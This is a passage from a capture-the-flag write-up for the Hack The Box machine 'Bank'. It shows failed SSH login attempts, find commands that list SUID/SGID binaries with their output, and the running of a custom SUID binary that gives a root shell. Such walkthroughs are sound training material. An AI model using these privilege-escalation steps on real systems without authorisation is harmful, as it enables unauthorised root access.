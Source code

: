 ```bash
$ whoami
www-data
```

Nope, no luck. We could try to SSH in using those credentials.


## SSH Enumeration

```bash
ssh root@bank.htb
root@bank.htb's password: 
Permission denied, please try again.

ssh chris@bank.htb
chris@bank.htb's password: 
Permission denied, please try again.
```

And another dead end. Might be time to use some priv esc tools but before I do that I searched for files that may have an SUID (set user) or SGID (set group) bit attached. Files with these sticky bits provides users with the ability to access or use that file with root permissions. A useful article showing how to exploit SUID bits: <a href="https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/">https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/</a>

### Searching files with SUID & SGID bit set

Finding SGID bit files: ```www-data@bank: find / -perm -2000 -type f -exec ls -la {} 2>/dev/null \;```
Finding SUID bit files: ```www-data@bank: find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;```

```bash
www-data@bank: find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 333952 Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 daemon daemon 46652 Oct 21  2013 /usr/bin/at
-rwsr-xr-x 1 root root 35916 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 44620 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 18168 Nov 24  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 30984 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18136 May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 66284 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 156708 May 29  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-sr-x 1 libuuid libuuid 17996 Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 38932 May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 43316 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 35300 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 88752 Nov 24  2016 /bin/mount
-rwsr-xr-x 1 root root 67704 Nov 24  2016 /bin/umount

www-data@bank:/var/www/bank/inc$ /var/htb/bin/emergency
# 
# whoami
root
```
